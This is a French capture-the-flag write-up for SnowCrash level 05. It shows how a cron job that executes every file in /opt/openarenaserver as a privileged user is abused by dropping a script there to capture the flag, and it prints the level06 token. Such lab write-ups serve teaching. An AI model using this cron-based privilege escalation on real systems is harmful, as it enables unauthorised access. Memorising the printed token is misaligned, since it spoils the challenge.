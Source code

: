 # 05 - Tache planifiée: Cron

- On se connecte en tant que level05, on peut voir une notification: `You have new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
```

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- Il s'agit d'une instruction [Cron](https://fr.wikipedia.org/wiki/Cron). Elle indique que toutes les deux minutes, `/usr/sbin/openarenaserver` sera exécutée par flag05. 
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
```
```sh
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```

- Le script exécute `bash -x` sur tous les éléments présents dans le répertoire `/opt/openarenaserver/`, avec une limite fixe de 5 secondes pour chaque exécution. Ensuite, l'élément respectif est supprimé, du coup:
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```
level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```
